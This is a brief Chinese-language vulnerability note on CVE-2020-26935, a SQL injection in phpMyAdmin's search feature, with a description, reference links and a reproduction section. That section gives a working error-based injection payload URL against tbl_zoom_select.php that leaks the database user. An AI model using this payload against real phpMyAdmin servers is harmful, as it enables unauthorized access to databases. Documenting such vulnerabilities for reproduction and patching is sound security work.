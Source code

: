 # phpMyAdmin后台SQL注入 CVE-2020-26935

## 漏洞描述

在4.9.6之前的phpMyAdmin和5.0.3之前的5.x的SearchController中发现一个问题。在phpMyAdmin如何处理搜索功能中的SQL语句中发现了一个SQL注入漏洞。攻击者可以利用此漏洞将恶意SQL注入查询。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26935
- https://xz.aliyun.com/t/8524

## 漏洞复现

payload：

```
http://127.0.0.1/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```


